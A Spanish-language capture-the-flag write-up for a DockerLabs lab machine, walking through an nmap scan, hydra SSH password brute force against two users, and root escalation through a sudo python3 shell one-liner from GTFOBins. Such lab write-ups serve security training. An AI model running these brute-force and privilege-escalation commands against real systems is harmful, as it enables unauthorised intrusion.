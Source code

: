 ```yaml
---
title: Pequenas-Mentirosas
author: Ldeluq
date: 2025-01-13 14:10:00 +0800
categories:
  - Ctf
  - DockerLabs
tags:
  - ciber
render_with_liquid:
---
```

Iniciamos la Maquina

![[Pasted image 20250113213734.png]](/imagenes/Pasted%20image%2020250113213734.png)

escaneamos los puertos `nmap -p- --open -sCSV -vvv -Pn -n --min-rate 5000 172.17.0.2`

![[Pasted image 20250113213859.png]](/imagenes/Pasted%20image%2020250113213859.png)

entramos al navegador 

![[Pasted image 20250113214035.png]](/imagenes/Pasted%20image%2020250113214035.png)

analizando la pista nos da un indicio que a es un usuario  use goubuster en busca de directorios pero la busqueda no arrojo nada interesante 

![[Pasted image 20250113214315.png]](/imagenes/Pasted%20image%2020250113214315.png)

procedo a realizar fuerza bruta con hydra al ssh con a como ususario  `hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2` y encontramos la contrasena secret 

![[Pasted image 20250113214619.png]](/imagenes/Pasted%20image%2020250113214619.png)

entramos por ssh con las credenciales encontradas `ssh a@172.17.0.2` y listamos los servicios con `sudo -l` no podemos con este usuario pero al navegar en los directorios encontramos que existe otro ususario spencer

![[Pasted image 20250113215032.png]](/imagenes/Pasted%20image%2020250113215032.png)

hacemos fuerza bruta con hydra con el nuevo usuario spencer `hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2` y encontramos la contrasena password1

![[Pasted image 20250113215255.png]](/imagenes/Pasted%20image%2020250113215255.png)

nos hacemos usuario spencer y listamos los servicios con `sudo -l` 

![[Pasted image 20250113215510.png]](/imagenes/Pasted%20image%2020250113215510.png)

buscamos en gtfobins como escalar privilegios en python3 

![[Pasted image 20250113215954.png]](/imagenes/Pasted%20image%2020250113215954.png)

ejecutamos `sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'` y nos hacemos root verificamos con `whoami` 


![[Pasted image 20250113220214.png]](/imagenes/Pasted%20image%2020250113220214.png)






